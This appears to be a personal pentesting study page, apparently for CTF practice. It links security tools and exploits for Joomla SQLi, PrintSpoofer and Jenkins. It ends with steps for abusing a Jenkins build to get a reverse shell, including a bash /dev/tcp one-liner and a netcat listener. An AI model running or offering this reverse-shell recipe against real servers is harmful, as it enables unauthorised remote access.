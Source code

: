 ## Add cool sites / tools

https://sqliteonline.com/

https://vk9-sec.com/reverse-shell-on-any-cms/

https://enotes.nickapic.com/

https://explainshell.com/

https://en.wikipedia.org/wiki/List_of_file_signatures

https://osintframework.com/

## Documente some learned exploits
- Joomla 3.7.0 CVE-2017-8917 SQLi exploit   python script: https://github.com/XiphosResearch/exploits/blob/master/Joomblah/joomblah.py

- Vuln: printspoofer : To escalate privileges, the service account must have SeImpersonate privileges. (check with whoam /priv): 
https://github.com/dievus/printspoofer

- Jenkins Exploit
  - https://www.n00py.io/2017/01/compromising-jenkins-and-extracting-credentials/
  - https://infosecwriteups.com/tryhackme-internal-writeup-480ce471efdd

- Jenkins: Or build a new project: 
   - New Item > Freestyle project > Build > Add build stp > Execute shell" (or batch, depending host) 
   - paste reverse shell code (exemple: bash -c 'exec bash -i &>/dev/tcp/10.14.26.186/7777 <&1' )
   - save. 
   - set up netcat listener on ur host and run "Build Now" on Jenkins project. Grab your reverse shell as jenkins
